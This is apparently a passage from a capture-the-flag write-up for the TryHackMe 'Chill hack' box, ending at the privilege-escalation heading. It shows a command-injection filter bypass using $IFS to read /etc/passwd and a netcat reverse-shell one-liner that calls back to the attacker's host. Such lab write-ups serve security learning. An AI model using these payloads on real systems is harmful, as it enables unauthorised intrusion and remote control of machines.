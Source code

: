 ### Chill hack
### Difficulty = easy
### Os = linux
### [LINK](https://tryhackme.com/room/chillhack)

Hi guys ,
<br> let's root another fun box today.
<br> let's get start

<h2>Nmap scan</h2>

![nmap](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a3a34c1a-56e5-4c8b-b7ac-b05149c8fa2b)

As you can see we have 3 open ports which port 21(FTP) Allows anonymous login.
<br> so let's start enumerate the port further by connecting to the ftp server using "anonymous" as username and hitting enter to get logged in. Then download the file on the server to your local machine

![anonymousftp](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/49303fe2-cdba-459b-b3d2-4a7476fb7ecc)
<br> so, let's check the content of the downloaded file

![anonymousftp](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/2f01e9bb-7d69-4cda-b027-165a57e53c52)

the file contains hint to the box.

<br> let's proceed further by fuzzing for directories using ffuf
~~~
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.85.120/FUZZ
~~~

![fuzz](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6bce9a6-9f52-4e85-975a-9f959b1a6b73)

got the directory */secret*
<br> visiting the directory we can tell that the box is about command injection

![http_command_inj_page](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6568236-8929-4d80-ae25-fff0fd4ab7ec)
<br> so, you can confirm it by executing the **id** command

proceeding further we noticed that our commands ain't working due to some kinda filters
 
 ![filter](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/01e4e271-345e-4135-b128-838ec0d753d5)

i found out that spaces get filtered and thereby triggering the alert

<br> so, let's bypass the filter using the "internal field separator" $IFS
```
cat$IFS/etc/passwd should work
```

![filer_bypass](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8ab2e700-3c52-440b-9e9a-aa732477c14c)

dope! it has been bypassed. which means we have to replace the spaces with $IFS 

<br> let's pop our sweet reverse shell by starting netcat listener and executing this commands
```
rm$IFS/tmp/f;mkfifo$IFS/tmp/f;cat$IFS/tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f
```
![rev-shell](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/760a62df-4925-44ae-b577-07654cb8fa56)
cool we have a shell xD
so, stabilize the shell.

<h2>Privilege escalation</h2>

